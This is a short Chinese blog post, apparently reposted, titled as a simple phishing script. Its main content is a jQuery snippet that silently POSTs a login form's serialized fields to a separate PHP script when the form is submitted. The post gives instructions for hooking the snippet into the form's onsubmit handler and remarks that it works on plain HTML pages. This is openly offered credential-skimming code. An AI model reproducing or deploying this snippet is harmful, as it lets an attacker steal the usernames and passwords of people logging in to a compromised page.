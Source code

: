 ```yaml
---
title: 110506 一个简单的钓鱼脚本
layout: post
permalink: /2080.html
categories:
  - Code
tags:
  - js钓鱼代码
  - PHP
  - 很久没更新了
---
```

最近懒得更新了 ，是因为有老婆了 最近懒得更新了，是因为夜生活太忙了。 时而更，时而断更 ，或许这里会成为荒地。 <script src=&#8221;http://ajax.googleapis.com/ajax/libs/jquery/1.4.4/jquery.min.js&#8221; type=&#8221;text/javascript&#8221;> </script> <script language=&#8221;JavaScript&#8221;> function checksubmit(){ $.ajax({ type : &#8220;POST&#8221;, async : false, url  : &#8220;../x.php&#8221;, data : $(&#8220;#FrmLogin&#8221;).serialize(), success : function(msg){ return true; } });} </script> &nbsp; 在表单的action后面加上onsubmit=&#8221;return checksubmit();&#8221; 这个方法的最大好处是可以用在html页面，其它好处自己体会吧。 转自 http://hi.baidu.com/myvbscript/blog/item/33b0003807b2e8e7b311c797.html